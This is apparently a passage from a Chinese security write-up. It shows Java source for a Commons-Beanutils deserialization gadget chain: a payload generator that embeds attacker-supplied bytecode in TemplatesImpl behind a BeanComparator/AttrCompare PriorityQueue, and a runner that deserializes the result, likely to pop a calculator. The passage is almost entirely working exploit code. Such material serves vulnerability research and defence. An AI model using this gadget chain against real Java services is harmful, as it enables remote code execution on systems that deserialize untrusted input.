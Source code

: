 ```java
        setFieldValue(templates, "_bytecodes", new byte[][]{clazzBytes});
        setFieldValue(templates, "_name", "HelloTemplatesImpl");
        setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());

        final BeanComparator comparator = new BeanComparator("outputProperties", new AttrCompare());
        final PriorityQueue<Object> queue = new PriorityQueue<>();
        setFieldValue(queue, "comparator", comparator);
        setFieldValue(queue, "size", 2);
        setFieldValue(queue, "queue", new Object[]{templates, templates});

        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(queue);
        oos.close();

        return barr.toByteArray();
    }
}
```

- PayloadRunner.java

```java
import javassist.ClassPool;
import javassist.CtClass;

import java.io.ByteArrayInputStream;
import java.io.IOException;
import java.io.InputStream;
import java.io.ObjectInputStream;

public class PayloadRunner {
    public static void main(String[] args) throws Exception{
        ClassPool pool = ClassPool.getDefault();
        CtClass clazz = pool.get(Calc.class.getName());
        byte[] payload = CommonsBeanutils_JDK_AttrCompare_debug.getPayload(clazz.toBytecode());
        deserialize(payload);
    }

    public static Object deserialize(final byte[] serialized) throws IOException, ClassNotFoundException {
        final ByteArrayInputStream in = new ByteArrayInputStream(serialized);
        return deserialize(in);
    }

    public static Object deserialize(final InputStream in) throws ClassNotFoundException, IOException {
        final ObjectInputStream objIn = new ObjectInputStream(in);
        return objIn.readObject();
    }
}
```
测试效果
